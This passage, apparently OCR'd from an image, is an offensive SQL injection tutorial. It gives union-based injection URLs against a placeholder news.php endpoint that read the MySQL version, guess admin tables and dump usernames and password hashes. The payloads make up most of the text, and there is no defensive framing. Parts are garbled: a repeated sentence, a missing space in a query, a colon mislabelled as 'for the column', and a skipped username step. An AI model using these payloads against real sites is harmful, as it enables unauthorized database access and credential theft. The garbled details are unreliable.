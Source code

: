 **NOTE:** If /* not working or you get some error, then try "-" it's a comment and it's important for our query to work properly.

Let say that we have number 2 on the screen, now to check for the version we replace the number 2 with @@version or version() and get something like 4.1.33-log or 5.0.45 or similar.

```none
http://server/news.php?id=5 union all select 1,@@version,3/*
```

If you get an error "union + illegal mix of collations (IMPLICIT + COERCIBLE) ...", what you will need to do is to use the **convert()** function as per the below example.

**Example:**

```none
http://server/news.php?id=5 union all select 1,convert(@@version using latin1),3/*
```

Or with **hex()** and **unhex()**

**Example:**

```none
http://server/news.php?id=5 union all select 1,unhex(hex(@@version)),3/*
```

And you will get MySQL version

**Getting table and column name**

Well if the MySQL version is < 5 (example, 4.1.33, 4.1.12...), we must guess table and column name in most cases. Common table names are: user/s, admin/s, member/s. Common table names are: user/s, admin/s, member/s. Common column names are username, user, usr, user_name, password, pass, passwd, pwd etc...

**Example:**

```none
http://server/news.php?id=5 union all select 1,2,3 from admin/*
```

(We see number 2 on the screen like before, and that's good).

We get username displayed on the screen, an example would be admin, or superadmin etc...

Now to check if the column password exists.

```none
http://server/news.php?id=5 union all select 1,password,3 from admin/*
```

We seen the password on the screen in hash or plain-text, it depends on how the database is set up i.e md5 hash, mysql hash, sha1\. Now we must complete the query to look nice. For that we can use **concat()** function (it joins strings)

**Example:**

```none
http://server/news.php?id=5 union all select1,concat(username,0x3a,password),3 from admin/*
```

**NOTE:** We used 0x3a, it’s a hexadecimal value (0x3a is the hexadecimal value for the column). Another method is to use char (58) in ascii mode.
